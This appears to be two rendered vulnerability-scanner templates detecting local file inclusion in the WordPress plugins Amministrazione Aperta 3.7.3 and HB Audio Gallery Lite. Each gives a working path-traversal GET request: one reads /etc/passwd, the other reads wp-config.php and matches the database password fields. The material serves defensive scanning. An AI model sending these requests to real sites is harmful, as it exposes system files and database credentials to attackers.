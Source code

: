 - WordPress Amministrazione Aperta 3.7.3 is vulnerable to local file inclusion.
- severity - high
- tags - wp-plugin,lfi,wp,edb,wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/amministrazione-aperta/wpgov/dispatcher.php?open=../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Wordpress HB Audio Gallery Lite - Local File Inclusion

## Description

- Wordpress HB Audio Gallery Lite is vulnerable to local file inclusion.
- severity - high
- tags - wp,packetstorm,wordpress,wp-plugin,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/hb-audio-gallery-lite/gallery/audio-download.php?file_path=../../../../wp-config.php&file_size=10

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and
